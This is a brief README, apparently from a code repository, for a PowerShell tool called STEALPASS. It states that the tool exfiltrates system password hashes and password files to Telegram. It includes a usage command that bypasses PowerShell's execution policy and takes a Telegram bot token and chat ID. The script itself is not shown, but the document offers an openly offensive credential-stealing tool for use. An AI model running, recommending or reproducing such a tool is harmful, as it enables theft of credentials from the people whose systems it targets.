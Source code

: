 # STEALPASS
STEALPASS POWERSHELL SCRIPT TO EXFIL SYSTEM HASHS AND PASS FILES TO TELEGRAM


# USAGE

```
PowerShell -ExecutionPolicy Bypass -File StealPass.ps1.ps1 -DestinationPath "C:\temp" -TelegramBotToken "Your_Telegram_Bot_Token" -ChatId "Your_Chat_ID"

```

